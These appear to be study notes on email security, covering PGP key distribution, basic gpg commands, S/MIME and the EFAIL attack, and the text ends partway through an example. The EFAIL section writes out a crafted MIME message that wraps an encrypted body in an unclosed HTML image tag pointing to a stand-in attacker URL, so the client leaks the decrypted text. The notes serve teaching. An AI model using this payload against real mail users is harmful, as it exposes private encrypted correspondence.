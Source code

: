     - Issues
      - How to embed the signature/encrypted content into a message?
        - There's not a standard way
        - It could be appended as an attachment
        - It could be appended at the end of the message
        - Usually implementations will adopt one approach but then try to handle also other approaches 
      - How to get the public key of other users?
        - Using a CA (a bit centralized)
        - Web of Trust (no more works)
          - Each user keep a list of (trusted) public keys of other users
          - He will sign these keys: other users may thus trust these keys if they trust who signed them
          - More complex policies: trust a public key only when K trusted users are trusting it
        - The public key is attached to the email
          - Should we trust the PK attached to the mail? NO
          - **The idea is that each user has its own way to certify its own identity**
        - The public key can be fetched from a key server
          - Public servers: doesn't verify the identity of the user who uploaded the PK
            - Ubuntu key server: any user can upload a PK, faking the key metadata
            - OpenPGP key server: a validation email is sent to the address claimed by the PK
          - Private servers: organizations may track PK of their users; it works but requires special ways of validating the PK (cannot scale for all internet users)
    - Tutorial
      - Create a new key pair: `gpg --gen-key`
      - Export public key: `gpg --armor --export email@domain.com`
      - Import public key of another user: `gpg --import file.asc`
      - Import public of another user from a public server: `gpg --recv-keys XYZ`
      - Trust imported key: `gpg --sign-key email@example.com`
      - Encrypt a file: `gpg --encrypt --armor -r person@email.com file.ext`
      - Sign a file: `gpg --sign --armor file.ext`
      - Encrypt and sign: `gpg --encrypt --sign --armor -r person@email.com file.ext`
      - Decrypt and/or check signature: `gpg file.ext.asc`
  - Secure/Multipurpose Internet Mail Extensions (S/MIME)
    - Similar to PGP, the difference is that the trust model is based on X.509 certificates and CAs
    - Not so adopted by standard users
  - Attack in email security: EFAIL
    - Attacker may access the decrypted content of an email if it contains active content like HTML or JavaScript, or if loading of external content has been enabled in the client
    - How
      - Suppose the attacker has a copy of encrypted message
        ```
        Content-Type: application/pkcs7-mime;  s-mime-typed-envelope-dataContent-Transfer-Encoding: base64<base64-ENCRYPTEDMESSAGEENCRYPTEDMESSAGEENCRYPTEDMESSAGEENCRYPTEDMESSAGE>
        ```
      - Send this message to the sender of the encrypted message
        ```
        [...]
        Content-Type:multipart/mixed;boundary="BOUNDARY"
        [...]
        --BOUNDARYContent-Type:text/html
        
        <img src="http://attacker.chosen.url/
        --BOUNDARY
        Content-Type: application/pkcs7-mime;
        s-mime-typed-envelope-data
        Content-Transfer-Encoding: base64ENCRYPTEDMESSAGEENCRYPTEDMESSAGEENCRYPTEDMESSAGEENCRYPTEDMESSAGE
        --BOUNDARY
        